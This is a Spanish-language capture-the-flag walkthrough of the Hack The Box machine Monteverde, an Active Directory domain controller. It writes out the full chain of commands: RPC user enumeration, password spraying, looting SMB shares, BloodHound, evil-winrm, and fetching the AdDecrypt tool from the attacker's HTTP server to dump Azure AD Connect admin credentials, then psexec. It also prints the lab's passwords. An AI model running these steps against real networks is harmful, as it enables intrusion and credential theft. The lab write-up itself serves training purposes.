

Comenzamos realizando un escaneo de los puertos abiertos de la máquina víctima.

``sudo nmap 10.10.10.172 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``



Dado el output anterior podemos pensar que estamos ante un DC, pero vamos a realizar otro escaneo sobre estos puertos abiertos para saber qué versiones y servicios están corriendo.

``nmap 10.10.10.172 -sCV -p53,135,139,389,445,464,636,9389,49667,49673,49674,49693 -oN target -Pn``



Podemos confirmar que estamos ante un DC y que el dominio es megabank.local

Para seguir enumerando información de la máquina, vamos a hacer uso de netexec:

``netexec smb 10.10.10.172``



Confirmamos que el dominio es megabank.local, que la máquina se llama Monteverde y que es un WServer 2019.

Añadimos esta información a nuestro /etc/hosts:



Una vez sabemos esto, podemos continuar con la enumeración.

Nos conectamos por RPC con null sesion para hacer una enumeración de los usuarios existentes y nos guardamos el output en rpcusers.txt

``rpcclient -U '' 10.10.10.172 -N -c enumdomusers > rpcusers.txt``



Para generarnos un diccionario de usuarios necesitamos hacer un tratamiento de los datos. En concreto, nos quedaremos con lo que está dentro de los primeros corchetes.

``cat rpcusers.txt | cut -d '[' -f2 | cut -d ']' -f1``

Una vez tenemos un listado de usuarios, podemos intentar técnicas como asreproasting. No obstante, ninguno de los usuarios tiene NoPreAuth habilitado.

Dada esta situación y que sólo tenemos un listado de usuarios, podemos probar el mismo listado de usuarios como diccionario de contraseñas..

``netexec smb 10.10.10.172 -u users.txt -p users.txt --continue-on-success``



Nos encuentra unas credenciales válidas.
SABatchJobs:SABatchJobs 

Vamos a echar un vistazo a los recursos que se comparten con este usuario por SMB:

``netexec smb 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs' --shares``



Aparecen directorios interesantes con permisos de lectura: azure_uploads y users

Comenzamos conectándonos al directorio users y nos traemos todo el contenido:

``smbclient //10.10.10.172/users$ -U 'SABatchJobs%SABatchJobs'``

``prompt off``

``recurse on``

``mget *``

Una vez lo tenemos en la máquina víctima, miramos el contenido del archivo azure.xml:



Aparece claramente un valor en el campo de contraseña: 4n0therD4y@n0th3r

Se hace password spraying contra todos los usuarios del dominio para esta contraseña:

``netexec smb 10.10.10.172 -u users.txt -p '4n0therD4y@n0th3r$' --continue-on-success``

Estupendo, fuunciona para mhope.

Por SMB se comparte exactamente lo mismo para mhope que para SABatchJobs.

Vamos a hacer uso de la herramienta BloodHound para enumerar más a fondo el dominio e intentar ver cositas.

Dado que el DC tiene un servidor DNS corriendo, no es necesario estar dentro de la máquina víctima y compartir SharpHound, sino que podemos hacer uso de BloodHound-Python:

``bloodhound-python -u 'mhope' -p '4n0therD4y@n0th3r$' -d megabank.local -c all -ns 10.10.10.172``



Una vez hemos recolectado la data, levantamos neo4j:

``sudo neo4j start``



Acto seguido levantamos BloodHound:
 
``bloodhound --no-sandbox &>/dev/null & disown``

Introducimos nuestras credenciales de neo4j en el panel de login.

Subimos los archivos .json generados previamente:



Marcamos como pwned a los dos usuarios que ya tenemos.

Ejemplo mhope:





Y repetimos para SABatchJobs.

Si vamos a la pestaña Analysis y, en concreto, "Shortest Paths To Unconstrained Delegation Systems", vemos:



¿Cómo? ¿Que el usuario mhope puede CanPSRemote? ¿Pero cómo? No tenemos winRM, RDP, psexec o wmiexec

A su vez:



Mhope forma parte de Azure Admins.

Esto también se podía haber comprobado de otra forma desde RPCCLIENT:

- Primero nos conectamos con null sesion (aunque también podríamos hacerlo con las credenciales que tenemos de mhope)

``rpcclient -U '' 10.10.10.172 -N``

- Una vez dentro, listamos los usuarios:

``enumdomusers``



Sabemos que el RID de mhope es 0x641.

Si queremos saber en qué grupos se encuentra este usuario, podemos:

``queryusergroups 0x641``



Vale, está en los grupos 0xa29 y 0x201. Pero, ¿qué grupos son esos? También podemos averiguarlo a través de RPC.

``querygroup 0xa29``

``querygroup 0x201``



Confirmamos que forma parte del grupo Azure Admins.

Después de estar viendo diferentes maneras de explotar el tener un usuario que forma parte del grupo Azure Admins, se llega a la conclusión de que necesariamente se requiere estar dentro de la máquina. No se descubren formas de hacerlo, por lo que se reinicia la máquina y se realiza un nuevo escaneo:

``sudo nmap 10.10.10.172 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``



Sorprendentemente, ahora el p5985 aparece abierto. Aunque en el escaneo inicial no aparecía, se intentó probar credenciales contra winrm, resultando dichas validaciones fallidas. Cuando pasan este tipo de situaciones en las que no somos capaces de tener acceso a la máquina, puede ser realmente útil reiniciar la máquina. Nos da tiempo para respirar y comprobar si algún servicio no se había levantado correctamente.

Vamos a probar las credenciales que tenemos contra winrm.

``netexec winrm 10.10.10.172 -u 'mhope' -p '4n0therD4y@n0th3r$'``



Tenemos pwn3d! para mhope. Vaaaaaale, podemos conectamos a la máquina víctima.

``evil-winrm -i 10.10.10.172 -u 'mhope' -p '4n0therD4y@n0th3r$'``



Estamos dentro de la máquina vícitma como mhope.

En C:\Users\mhope\Desktop encontramos la flag de usuario.



# Privesc

Confirmamos que mhope forma parte del grupo Azure Admins:



Hay una vía a través de la cual listar las credenciales del usuario administrador del dominio si formamos parte del grupo Azure Admins:

https://github.com/VbScrub/AdSyncDecrypt/releases

- Nos descargamos el AdDeecrypt.zip
- Lo unzipeamos -> Nos da el ejecutable y mcrypt.dll

Una vez lo tenemos en la máquina atacante se lo compartimos a la máquina víctima:

- Creamos en máquina víctima carpeta temp en C:\ -> ``mkdir C:\temp`` y nos movemos a ella.

- Abrimos http server en máquina atacante para compartir ambos archivos:

``python3 -m http.server 80``

- Hacemos solicitud de los recursos desde máquina víctima:

``iwr http://10.10.14.8/AdDecrypt.exe -o AdDecrypt.exe``

``iwr http://10.10.14.8/mcrypt.dll -o mcrypt.dll``



Una vez los tenemos en máquina víctima, seguimos las instrucciones del github:

- Nos dirigimos al directorio: C:\Program Files\Microsoft Azure AD Sync\Bin y ejecutamos:
  
``C:\Temp\AdDecrypt.exe -FullSQL``



Ojito con lo que tenemos:

- administrator : d0m@in4dminyeah!

Vamos a validar las credenciales con netexec:



Tenemos Pwn3d!, por lo que podemos hacer uso de wmiexec, psexec o winrm (previa validación con netexec).

``impacket-psexec administrator@10.10.10.172``



Encontramos la flag de administrador en C:\Users\Administrator\Desktop:


